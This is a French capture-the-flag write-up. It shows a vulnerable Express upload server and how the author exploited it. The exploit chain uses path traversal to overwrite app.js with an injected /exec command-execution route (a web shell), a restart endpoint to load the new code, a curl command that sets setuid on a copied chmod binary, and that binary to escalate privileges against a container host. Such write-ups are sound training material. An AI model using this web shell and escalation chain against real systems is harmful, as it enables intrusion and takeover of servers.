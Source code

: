 # Homelab? More like Pwnlab!

### Information:
- express js code source
- webshell
- http://REDACTED


Le code source:
```js
const express = require("express");
const path = require("path");
const fs = require("fs");

const app = express();
const PORT = 5555;

app.use(express.static("public"));

app.use(express.urlencoded({ extended: true }));
app.use(express.json());

app.set("view engine", "ejs");
app.set("views", path.join(__dirname, "views"));

app.get("/", (req, res) => {
  fs.readdir(path.join(__dirname, "public/uploads"), (err, files) => {
    if (err) {
      console.error("Could not list files:", err);
      res.status(500).send("Error listing files.");
      return;
    }
    res.render("index", { files });
  });
});

app.post("/upload", (req, res) => {
  if (!req.body.fileName || !req.body.fileContent) {
    return res.status(400).send("File data missing.");
  }

  const filename = req.body.fileName;
  const filePath = path.join(__dirname, "public/uploads", filename);

  fs.writeFile(filePath, req.body.fileContent, (err) => {
    if (err) {
      console.error("Error saving file:", err);
      return res.status(500).send("Failed to upload file.");
    }
    console.log("File saved successfully.");
    res.redirect("/");
  });
});

app.get("/download/:filename", (req, res) => {
  const filename = req.params.filename;
  const filepath = path.join(__dirname, "public/uploads", filename);
  res.download(filepath);
});

app.get("/restart", (req, res) => {
  res.send("Restarting server...");
  process.exit(0);
});

app.listen(PORT, () => {
  console.log(`Server running at http://localhost:${PORT}`);
});
```

Grosso modo sur le serveur nous avons ceci:
- User: user, admin
- Un container qui roule l'application as root

```js
app.post("/upload", (req, res) => {
  if (!req.body.fileName || !req.body.fileContent) {
    return res.status(400).send("File data missing.");
  }

  const filename = req.body.fileName;
  const filePath = path.join(__dirname, "public/uploads", filename);

  fs.writeFile(filePath, req.body.fileContent, (err) => {
    if (err) {
      console.error("Error saving file:", err);
      return res.status(500).send("Failed to upload file.");
    }
    console.log("File saved successfully.");
    res.redirect("/");
  });
});
``` 

Il n'y a aucune validation sur quel fichier nous écrivons

```js
app.get("/restart", (req, res) => {
  res.send("Restarting server...");
  process.exit(0);
});
```

Nous permet de redémarer le serveur.

Apres quelque tentative je me rend compte que je peux réécrire app.js
Je le pimente donc un peu avec cette méthode

```js
app.post("/exec", (req, res) => {
    const { command } = req.body;
  
    if (!command) {
      return res.status(400).send("Command is required");
    }
  
    exec(command, (error, stdout, stderr) => {
      if (error) {
        return res.status(500).send(`Error executing command: ${error.message}`);
      }
      if (stderr) {
        return res.status(500).send(`stderr: ${stderr}`);
      }
      res.send(`<pre>${stdout}</pre>`); 
    });
  });
```
J'upload `../../app.js` avec le même app.js + ma méthode `/exec`
Je fais un get sur `/restart` pour loader la nouvelle version!

Dans le web shell en tant que `user` je copie `chmod` dans le volume partager entre le `docker` et le `host`

![alt text](img/before.png)

```bash
curl -X POST https://REDACTED/exec -H "Content-Type: application/json" -d '{"command": "chmod u+s ./public/uploads/chmod"}'
```

![alt text](img/after.png)

Finalement je l'utilise

```bash
./chmod 777 /home/admin/flag
```

![alt text](img/flag.png)